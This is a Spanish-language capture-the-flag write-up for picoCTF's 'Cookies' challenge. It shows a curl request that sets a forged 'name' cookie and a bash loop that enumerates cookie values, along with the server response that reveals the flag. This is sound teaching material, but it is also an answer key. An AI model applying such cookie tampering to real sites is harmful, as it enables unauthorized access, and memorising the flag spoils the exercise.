 ## Descripción
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)
## Solución 1
revisé las cookies de la página, y al ver que tenía una llamada "name" con el valor -1, decidí mandar varias peticiones cambiando ese valor en cada una hasta llegar a la 18, que fue la que me dio la bandera.
usé el comando
```
curl http://mercury.picoctf.net:64944/check -H "Cookie: name=18"
```
conseguí
```
└─$ curl http://mercury.picoctf.net:64944/check -H "Cookie: name=18"

<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

* Connection #0 to host mercury.picoctf.net left intact
</html>
```
## Solución 2
```
┌──(kali㉿kali)-[~]
└─$ for i in {1..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>

```
## Notas

## Referencias
